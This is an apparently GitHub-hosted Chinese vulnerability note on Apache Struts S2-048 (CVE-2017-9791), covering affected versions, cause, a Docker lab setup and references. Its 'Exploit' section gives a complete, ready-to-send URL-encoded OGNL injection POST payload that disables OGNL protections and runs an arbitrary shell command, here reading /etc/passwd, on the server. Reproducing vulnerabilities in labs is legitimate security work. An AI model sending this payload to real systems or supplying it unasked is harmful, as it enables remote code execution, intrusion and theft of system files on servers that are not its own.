



#### 漏洞信息

- [S2-048 公告](https://cwiki.apache.org/confluence/display/WW/S2-048)
- CVE编号: [CVE-2017-9791](https://nvd.nist.gov/vuln/detail/CVE-2017-9791)
- 影响范围: Apache Struts 2.3.x系列中启用了struts2-struts1-plugin插件的版本和Struts 1
- 产生原因： 将用户可控的值添加到`ActionMessage`并在客户前端展示，导致其进入`getText`函数，最后`message`被当作`ognl`表达式执行,搜索发现`org.apache.struts2.showcase.integration.SaveGangsterAction`存在漏洞

#### 环境复现

使用Vulapps提供的docker容器镜像

1、拉取镜像到本地
```bash
docker pull medicean/vulapps:s_struts2_s2-048
```
2、启动环境
```
docker run -d -p 8080:8080 medicean/vulapps:s_struts2_s2-048
```

#### 漏洞验证

在Gangster Name字段输入 Payload:



提交后可看到表达式被执行:




#### Exploit:

POST数据包
```
age=1&cmd=cat /etc/passwd&__checkbox_bustedBefore=true&name=%25%7B%28%23dm%3D%40ognl.OgnlContext%40DEFAULT_MEMBER_ACCESS%29.%28%23_memberAccess%3F%28%23_memberAccess%3D%23dm%29%3A%28%28%23container%3D%23context%5B%27com.opensymphony.xwork2.ActionContext.container%27%5D%29.%28%23ognlUtil%3D%23container.getInstance%28%40com.opensymphony.xwork2.ognl.OgnlUtil%40class%29%29.%28%23ognlUtil.getExcludedPackageNames%28%29.clear%28%29%29.%28%23ognlUtil.getExcludedClasses%28%29.clear%28%29%29.%28%23context.setMemberAccess%28%23dm%29%29%29%29.%28%23cmd%3D%23parameters.cmd%5B0%5D%29.%28%23iswin%3D%28%40java.lang.System%40getProperty%28%27os.name%27%29.toLowerCase%28%29.contains%28%27win%27%29%29%29.%28%23cmds%3D%28%23iswin%3F%7B%27cmd.exe%27%2C%27%2Fc%27%2C%23cmd%7D%3A%7B%27%2Fbin%2Fbash%27%2C%27-c%27%2C%23cmd%7D%29%29.%28%23p%3Dnew java.lang.ProcessBuilder%28%23cmds%29%29.%28%23p.redirectErrorStream%28true%29%29.%28%23process%3D%23p.start%28%29%29.%28%23ros%3D%28%40org.apache.struts2.ServletActionContext%40getResponse%28%29.getOutputStream%28%29%29%29.%28%40org.apache.commons.io.IOUtils%40copy%28%23process.getInputStream%28%29%2C%23ros%29%29.%28%23ros.flush%28%29%29%7D&description=test
```



相关链接:

- [Struts2 S2-048远程代码执行漏洞分析报告 ---- Freebuf](http://www.freebuf.com/vuls/140410.html)
- [S2-048 动态分析 ---- 独自等待博客](https://www.waitalone.cn/struts2-s2048.html)
- [Struts2-struts1-plugin 插件远程代码执行漏洞(S2-048) 环境 ---- VulApps](https://github.com/Medicean/VulApps/tree/master/s/struts2/s2-048)
- [CMS-Hunter
-- S2-048(CVE-2017-9791) ---- Github](https://github.com/SecWiki/CMS-Hunter/tree/master/Struts/S2-048(CVE-2017-9791))